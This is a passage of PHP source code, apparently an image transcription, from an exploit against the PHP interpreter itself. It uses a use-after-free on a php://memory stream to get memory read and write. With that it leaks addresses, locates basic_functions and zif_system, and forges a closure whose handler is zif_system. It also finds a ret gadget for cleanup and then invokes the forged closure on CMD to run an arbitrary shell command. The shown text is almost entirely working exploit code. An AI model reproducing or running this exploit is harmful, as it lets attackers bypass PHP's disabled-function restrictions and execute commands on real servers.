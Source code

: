 ```py
        $this->log("binary leak @ 0x%x", $binary_leak);
        $this->prepare_cleanup($binary_leak);

        $closure_addr = $this->str2ptr($this->helper_off + 0x38);
        $this->log("real closure @ 0x%x", $closure_addr);

        $closure_ce = $this->read($closure_addr + 0x10);
        $this->log("closure class_entry @ 0x%x", $closure_ce);

        $basic_funcs = $this->get_basic_funcs($closure_ce);
        $this->log("basic_functions @ 0x%x", $basic_funcs);

        $zif_system = $this->get_system($basic_funcs);
        $this->log("zif_system @ 0x%x", $zif_system);

        $fake_closure_off = $this->helper_off + CHUNK_SIZE * 2;
        for($i = 0; $i < 0x138; $i += 8) {
            $this->write($fake_closure_off + $i, $this->read($closure_addr + $i));
        }
        $this->write($fake_closure_off + 0x38, 1, 4);

        $handler_offset = PHP_MAJOR_VERSION === 8 ? 0x70 : 0x68;
        $this->write($fake_closure_off + $handler_offset, $zif_system);

        $fake_closure_addr = $this->helper_addr + $fake_closure_off - $this->helper_off;
        $this->write($this->helper_off + 0x38, $fake_closure_addr);
        $this->log("fake closure @ 0x%x", $fake_closure_addr);

        $this->cleanup();
        ($this->helper->b)(CMD);
    }

    private function make_uaf_obj() {
        $this->uafp = fopen('php://memory', 'w');
        fwrite($this->uafp, pack('QQQ', 1, 0, 0xDEADBAADC0DE));
        for($i = 0; $i < STRING_SIZE; $i++) {
            fwrite($this->uafp, "\x00");
        }
    }

    private function prepare_leaker() {
        $str_off = $this->helper_off + CHUNK_SIZE + 8;
        $this->write($str_off, 2);
        $this->write($str_off + 0x10, 6);

        $val_off = $this->helper_off + 0x48;
        $this->write($val_off, $this->helper_addr + CHUNK_SIZE + 8);
        $this->write($val_off + 8, 0xA);
    }

    private function prepare_cleanup($binary_leak) {
        $ret_gadget = $binary_leak;
        do {
            --$ret_gadget;
        } while($this->read($ret_gadget, 1) !== 0xC3);
        $this->log("ret gadget = 0x%x", $ret_gadget);
        $this->write(0, $this->abc_addr + 0x20 - (PHP_MAJOR_VERSION === 8 ? 0x50 : 0x60));
        $this->write(8, $ret_gadget);
    }

    private function read($addr, $n = 8) {
        $this->write($this->helper_off + CHUNK_SIZE + 16, $addr - 0x10);
        $value = strlen($this->helper->c);
```